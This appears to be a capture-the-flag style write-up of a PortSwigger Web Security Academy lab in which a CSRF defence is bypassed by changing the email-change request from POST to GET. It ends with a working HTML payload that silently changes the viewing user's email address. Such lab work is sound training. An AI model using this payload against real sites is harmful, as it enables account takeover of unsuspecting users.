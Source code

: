 
# CSRF where token validation depends on request method

This lab's email change functionality is vulnerable to CSRF. It attempts to block CSRF attacks, but only applies defenses to certain types of requests.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: wiener:peter

Hint: You cannot register an email address that is already taken by another user. If you change your own email address while testing your exploit, make sure you use a different email address for the final exploit you deliver to the victim.

---------------------------------------------

Reference: https://portswigger.net/web-security/csrf

---------------------------------------------

Generated link: https://0af7002903ddc72c818c574600ce0059.web-security-academy.net/




![img](images/CSRF%20where%20token%20validation%20depends%20on%20request%20method/1.png)



![img](images/CSRF%20where%20token%20validation%20depends%20on%20request%20method/2.png)

It is a POST request:



![img](images/CSRF%20where%20token%20validation%20depends%20on%20request%20method/3.png)

Change the method to GET:

/my-account/change-email?email=test3%40test.com




![img](images/CSRF%20where%20token%20validation%20depends%20on%20request%20method/4.png)

You get a redirection code, if you follow it the email is updated:



![img](images/CSRF%20where%20token%20validation%20depends%20on%20request%20method/5.png)



![img](images/CSRF%20where%20token%20validation%20depends%20on%20request%20method/6.png)


Payload:

```
<body onload="window.open('https://0af7002903ddc72c818c574600ce0059.web-security-academy.net/my-account/change-email?email=test3%40test.com')">
```



![img](images/CSRF%20where%20token%20validation%20depends%20on%20request%20method/7.png)